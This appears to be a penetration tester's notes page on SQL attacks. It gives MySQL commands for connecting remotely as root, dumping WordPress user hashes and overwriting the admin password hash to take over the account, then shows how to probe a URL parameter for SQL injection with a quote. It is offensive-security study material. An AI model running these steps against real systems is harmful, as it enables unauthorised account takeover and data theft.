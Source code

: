 # SQL

```
https://blog.cobalt.io/a-pentesters-guide-to-sql-injection-sqli-16fd570c3532
```

## 3306 - remotely

{% hint style="success" %}
note to self - try [https://sqlectron.github.io/](https://sqlectron.github.io) to connect remotely
{% endhint %}

```
mysql -h $ip -u root -p
show databases;
#find the database you want - eg wordpress_db
use wordpress_db;
show tables;
select * from wp_users;
```

If you have root access remotely like the example above you can get access to the user's wordpress password.

If you can not crack the password you can change it to something you know - in fact just change the pass to something you know eg

```
SELECT ID, user_login, user_pass FROM wp_users WHERE user_login = 'admin';
#set the password for user admin to rowbot
UPDATE wp_users SET user_pass='c424ada17bf6e27794273b7db21cf950' WHERE user_login = 'admin';
```

## Identifying SQL Injection

Let's say that you have some site like this

```
http://$ip/news.php?id=5
```

Or a form like this

Now to test if it is vulnerable you add to the end of url **'** (quote).

```
http://$ip/news.php?id=5'
```

If you get an error like:

{% hint style="danger" %}
"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right etc..." or something similar
{% endhint %}
